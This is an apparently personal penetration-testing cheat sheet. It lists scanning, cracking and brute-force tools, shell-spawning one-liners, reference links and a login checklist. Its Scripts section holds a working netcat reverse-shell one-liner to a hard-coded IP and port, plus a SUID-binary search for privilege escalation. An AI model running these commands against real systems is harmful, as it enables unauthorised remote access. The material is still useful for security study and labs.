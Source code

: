 Tools
=====

Scanning
--------

-   nmap
-   rustscan
-   masscan
-   nikto

Directories
-----------

-   gobuster
-   zap
-   burp

Strings
-------

-   haiti - guess hash algorithm
-   codetective - find encoding algorithm
-   john
-   ssh2john

Brute-force
-----------

-   hydra
-   wpscan

Escalation
----------

-   linuxprivchecker

OSINT
-----

-   GHunt

Scripts
=======

-   `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`
-   `nmap --script=smb-enum-shares ...`
-   `rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.8.6.159 1337 >/tmp/f`
-   `grep "^j" rockyou.txt | grep "^[a-Z0-9\-\_]*$" | perl -e 'print sort { length($a) <=> length($b) } <>' > j-names.txt`

Spawing a shell
===============

-   python - `python -c 'import pty; pty.spawn("/bin/sh")'`
-   sh - `echo os.system('/bin/bash')`
-   sh - `/bin/sh -i`
-   perl - `perl —e 'exec "/bin/sh";'`
-   perl - `perl: exec "/bin/sh";`
-   ruby - `ruby: exec "/bin/sh"`
-   lua - `lua: os.execute('/bin/sh')`
-   IRB - `exec "/bin/sh"`
-   vi - `:!bash`
-   vi - `:set shell=/bin/bash:shell`
-   nmap - `!sh`

Websites
========

-   https://gtfobins.github.io/ - binary exploits
-   https://blackarch.org/tools.html - blackarch tools and descriptions
-   https://netsec.ws/?p=337 - various ways to spawn a shell
-   http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
-   https://book.hacktricks.xyz/linux-unix/privilege-escalation
-   https://github.com/swisskyrepo/PayloadsAllTheThings
-   https://github.com/sundowndev/hacker-roadmap
-   https://github.com/The-Art-of-Hacking/h4cker
-   https://github.com/blaCCkHatHacEEkr/PENTESTING-BIBLE
-   https://github.com/enaqx/awesome-pentest

# Login checklist
- Find and try default login credentials
- Look around locally for any possible usernames
- OSINT, continue to build list of possible logins
- All else fails, brute-force
